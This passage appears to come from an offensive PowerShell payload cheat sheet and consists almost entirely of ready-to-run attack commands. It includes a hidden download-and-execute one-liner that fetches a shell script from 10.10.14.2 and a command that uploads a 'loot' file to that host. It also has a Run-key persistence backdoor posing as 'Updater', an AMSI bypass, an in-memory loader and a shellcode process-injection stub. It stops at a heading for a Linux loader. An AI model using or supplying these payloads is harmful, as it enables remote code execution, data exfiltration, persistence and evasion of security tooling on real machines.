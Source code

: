 #### 🔹 Download & Execute (One-Liner)

```powershell
powershell -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.2/shell.ps1')"
```

#### 🔹 File Upload via HTTP POST

```powershell
Invoke-RestMethod -Uri http://10.10.14.2/upload -Method POST -InFile C:\loot.txt
```

#### 🔹 Persistent Backdoor (Run Key)

```powershell
Set-ItemProperty "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run" "Updater" "powershell.exe -nop -w hidden -c IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.2/shell.ps1')"
```

#### 🔹 AMSI Bypass (for EDR bypass research)

```powershell
[Ref].Assembly.GetType('System.Management.Automation.AmsiUtils').GetField('amsiInitFailed','NonPublic,Static').SetValue($null,$true)
```

#### 🔹 PowerShell to Memory Loader (advanced)

```powershell
IEX([System.Text.Encoding]::UTF8.GetString((New-Object Net.WebClient).DownloadData('http://10.10.14.2/mem.ps1')))
```

#### 🔹 WinAPI Process Injection (for red team training)

```powershell
$code = @"
[DllImport("kernel32")] public static extern IntPtr VirtualAlloc(IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);
[DllImport("kernel32")] public static extern IntPtr CreateThread(IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
[DllImport("msvcrt")] public static extern IntPtr memcpy(IntPtr dest, byte[] src, uint count);
"@
$win32 = Add-Type -memberDefinition $code -Name "Win32" -namespace Win32Functions -passthru
$buf = [Convert]::FromBase64String("BASE64_PAYLOAD")
$addr = $win32::VirtualAlloc(0, $buf.Length, 0x3000, 0x40)
[void]$win32::memcpy($addr, $buf, $buf.Length)
$win32::CreateThread(0,0,$addr,0,0,0)
```

***

### V. 🧱 Advanced Hybrid Payloads

#### 🔹 Multi-stage Loader (Linux)
